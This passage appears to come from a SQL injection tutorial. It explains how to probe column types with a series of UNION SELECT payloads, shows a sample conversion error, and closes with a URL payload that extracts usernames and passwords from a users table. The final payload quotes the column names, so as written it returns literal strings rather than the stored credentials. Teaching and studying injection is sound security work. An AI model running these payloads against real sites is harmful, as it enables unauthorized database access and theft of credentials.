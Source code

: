 Most data that you might want to retrieve is normally in string form. This means you need to find one or more columns in the original query whose data type is, or is compatible, with string data.

You can do this by submitting a series of `UNION SELECT` payloads that place a string value into each column in turn. For example:
```txt
' UNION SELECT 'a',NULL,NULL,NULL--
' UNION SELECT NULL,'a',NULL,NULL--
' UNION SELECT NULL,NULL,'a',NULL--
' UNION SELECT NULL,NULL,NULL,'a'--
```
> Note: We can also do this without the `'` (i.e `target-website.com?id=3 UNION SELECT NULL,NULL,'a'-- -`)

If the column data type is not compatible with string data, the database will return an error:
```txt
Conversion failed when converting the varchar value 'a' to data type int.
```
However, if this error does not occur and the application's response contains some additional content including the injected string value, then the relevant column is suitable for retrieving string data.

Once successful, you can now proceed with the attack. Depending on the number of column that is string-value compatible, you can return the results in multiple column or in this example, a single column using string concatenation:
```txt
http://target-website.com?productId=1' UNION SELECT NULL,NULL,CONCAT('username','password') FROM users--
```